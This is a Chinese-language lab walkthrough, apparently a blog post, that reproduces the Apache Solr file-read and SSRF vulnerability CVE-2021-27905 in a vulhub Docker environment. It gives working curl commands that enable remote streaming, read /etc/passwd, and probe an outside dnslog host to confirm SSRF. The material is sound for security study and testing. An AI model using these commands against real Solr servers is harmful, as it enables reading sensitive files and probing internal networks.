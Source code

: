 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139477-792724332.png)

```plain
4、Apache Solr 文件读取&SSRF (CVE-2021-27905)

启动环境：
cd /vulhub-master/solr/Remote-Streaming-Fileread
sudo docker-compose up -d

访问：http://192.168.233.128:8983/solr/#!/
1、获取数据库名
http://192.168.233.128:8983/solr/admin/cores?indexInfo=false&wt=json
数据库名：demo
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139676-1044892560.png)

```plain
2、访问触发
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://192.168.233.128:8983/solr/demo/config'
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139711-1623183271.png)

```plain
3、任意文件读取
curl -i -s -k 'http://192.168.233.128:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135140097-1647594878.png)

```plain
为什么说也是ssrf漏洞，是因为用到了file协议去读取，这样也可以进行内网探针，比如把file协议进行修改为http协议。看支不支持http协议可以用dnslog来进行判断。
curl -i -s -k 'http://192.168.233.128:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=http://2e8m2t.dnslog.cn'

执行能接受到反弹，所以支持http协议。
```